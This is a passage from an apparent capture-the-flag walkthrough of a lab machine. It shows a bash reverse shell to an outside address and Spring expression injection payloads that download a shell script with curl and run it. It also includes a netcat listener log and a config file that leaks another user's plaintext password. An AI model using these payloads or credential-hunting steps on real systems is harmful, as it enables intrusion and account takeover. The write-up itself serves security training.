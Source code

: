First i put the following bash rev shell to a file.

```bash
bash -i >& /dev/tcp/10.10.16.7/9001 0>&1
```

I uploaded the file to `/tmp` directory of the target.

```java
T(java.lang.Runtime).getRuntime().exec('curl 10.10.16.7/shell.sh -o /tmp/shell.sh')
```

I set up my listener and executed the file.

```java
T(java.lang.Runtime).getRuntime().exec('bash /tmp/shell.sh')
```

```terminal
[★]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.129.228.213] 35962
bash: cannot set terminal process group (6704): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
frank@inject:/$ export TERM=xterm
export TERM=xterm
frank@inject:/$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                                                                                              
┌──[10.10.16.7]─[sirius💀parrot]-[~]
└──╼[★]$ stty raw -echo;fg        
[1]  + continued  nc -lvnp 9001

frank@inject:/$ 
```

## **Privilege Escalation**

### Frank -> Phil

On frank's home directory we find a hidden directory with the file `settings.xml`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
